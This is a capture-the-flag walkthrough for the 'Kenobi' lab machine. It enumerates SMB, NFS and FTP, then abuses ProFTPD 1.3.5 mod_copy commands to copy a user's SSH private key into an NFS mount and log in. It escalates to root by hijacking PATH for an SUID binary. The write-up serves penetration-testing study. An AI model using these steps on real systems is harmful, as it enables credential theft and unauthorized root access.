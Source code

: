 This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

Machine ip: 10.10.205.10

# Enumeration

## nmap scan

```
sudo nmap -sC -sV -oN initialNmap $IP 
```
Open ports:
* 21/tcp (ftp, proftpd)
* 22/tcp (ssh)
* 80/tcp (http)
* 111/tcp (rpcbind)
* 139/tcp (netbios-ssn Samba smbd)
* 445/tcp (netbios-ssn Samba smbd)
* 2049/tcp (nfs)


## smb
I can see that the machine is running samba (smb), so I run rhe following command to check the smb shares:
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.205.10 -oN nmapSmbShares
```
To inspect one of the shares:
```
smbclient //10.10.205.10/anonymous
```
Found a file: log.txt, so we download it with ```get log.txt```
In this log I could find:
* Information generated for Kenobi when generating an SSH key for the user
* Information about the ProFTPD server.

## rpcbind

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.205.10 -oN nmapRpcbind
```
It shows a mount in /var

# Exploit

## ProFtpd

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.
Lets get the version of ProFtpd using netcat to connect to the machine on the FTP port
```
nc $IP 21
```

The ProFTPD version is 1.3.5
To see if there's a vulneravility in this version:
```
searchsploit proftpd 1.3.5
```

And this search found 4 possible exploits: 3 mod_copy and 1 File Copy

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

```
nc $IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.205.10]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa 
250 Copy successful
```

We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.
Lets mount the /var/tmp directory to our machine
```
sudo mkdir /mnt/kenobiNFS 
sudo mount $IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

# Privesc

To search vulnerable files in the system we run the following:
```
find / -perm -u=s -type f 2>/dev/null
```
This shows that we have access to /usr/bin/menu
Running ```strings /usr/bin/menu```

When we look at the results we see curl (an utility found on Linux) is being used in one of the steps during execution. The binary for curl has been directly invoked without using the complete path to the binary. When we don’t specify the complete path the system will look at the PATH variable and search in all the locations that are specified in the path for the file that is required. Since the path variable is editable by anyone we can use this to our advantage.
As this file runs as the root users privileges, we can manipulate our path gain a root shell.

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

